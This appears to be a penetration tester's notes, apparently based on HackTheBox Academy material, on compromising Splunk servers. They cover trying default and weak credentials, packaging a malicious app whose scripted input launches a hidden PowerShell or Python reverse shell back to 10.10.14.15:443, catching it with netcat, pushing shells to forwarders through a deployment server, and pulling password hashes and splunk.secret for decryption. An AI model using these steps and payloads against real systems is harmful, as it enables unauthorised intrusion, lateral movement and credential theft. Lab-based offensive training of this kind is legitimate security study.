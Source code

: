 
default credentials: `admin`: `changeme`
## Splunk
- [ ] default creds checked
- [ ] version enumerated
register via expired license
- [ ] upload vuln plugin /RCE

admin access to Splunk gives us the ability to deploy custom applications that can be used to quickly compromise a Splunk server and possibly other hosts in the network depending on the way Splunk is set up.

Let's imagine that we uncover a forgotten instance of Splunk in our Aquatone report that has since automatically converted to the free version, which does not require authentication. Since we have yet to gain a foothold in the internal network, let's focus our attention on Splunk and see if we can turn this access into RCE.

The latest version of Splunk sets credentials during the installation process. If the default credentials do not work, it is worth checking for common weak passwords such as `admin`, `changeme`, `Welcome`, `Welcome1`, `Password123`, etc.

Once logged in to Splunk (or having accessed an instance of Splunk Free), we can browse data, run reports, create dashboards, install applications from the Splunkbase library, and install custom applications.
![](https://academy.hackthebox.com/storage/modules/113/splunk_home.png)

Splunk has multiple ways of running code, such as server-side Django applications, REST endpoints, scripted inputs, and alerting scripts. A common method of gaining remote code execution on a Splunk server is through the use of a scripted input.

As Splunk can be installed on Windows or Linux hosts, scripted inputs can be created to run Bash, PowerShell, or Batch scripts. Also, every Splunk installation comes with Python installed, so Python scripts can be run on any Splunk system. A quick way to gain RCE is by creating a scripted input that tells Splunk to run a Python reverse shell script. We'll cover this in the next section.
Aside from this built-in functionality, 
# RCE using Splunk

We can use [this](https://github.com/0xjpuff/reverse_shell_splunk) Splunk package to assist us. The `bin` directory in this repo has examples for [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) and [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1). Let's walk through this step-by-step.
```shell-session
$ git clone https://github.com/0xjpuff/reverse_shell_splunk.git
$ tree splunk_shell/

splunk_shell/
├── bin
└── default

2 directories, 0 files
```

scripts are in bin, input.conf configures splunk interactions with the app
such as enable, interval.
### Windows 
We need the .bat file, which will run when the application is deployed and execute the PowerShell one-liner.

`run.bat`
```
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

Once the files are created, we can create a tarball or `.spl` file.
```shell-session
tar -cvzf updater.tar.gz splunk_shell/

splunk_shell/
splunk_shell/bin/
splunk_shell/bin/rev.py
splunk_shell/bin/run.bat
splunk_shell/bin/run.ps1
splunk_shell/default/
splunk_shell/default/inputs.conf
```

Before uploading the malicious custom app, let's start a listener
```shell-session
$ sudo nc -lnvp 443

listening on [any] 443 ...
```

install app at :`https://IP/en-US/manager/search/apps/local`

If we were dealing with a Linux host, we would need to edit the `rev.py` Python script before creating the tarball and uploading the custom malicious app. The rest of the process would be the same, and we would get a reverse shell connection on our Netcat listener and be off to the races.

```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```



If the compromised Splunk host is a deployment server

If the compromised Splunk host is a deployment server, it will likely be possible to achieve RCE on any hosts with Universal Forwarders installed on them. To push a reverse shell out to other hosts, the application must be placed in the `$SPLUNK_HOME/etc/deployment-apps` directory on the compromised host. In a Windows-heavy environment, we will need to create an application using a PowerShell reverse shell since the Universal forwarders do not install with Python like the Splunk server.
## splunk directory traversal
### splunk auth config file paths ( to grab password hash):
- `/etc/system/local/authentication.conf`
- `/etc/system/default/authentication.conf`
### splunk secrets
- `etc/auth/splunk.secret`

decrypt splunk password using splunksecrets
```
spls splunk-decrypt  -S splunk.secret  --ciphertext `<hash>`
```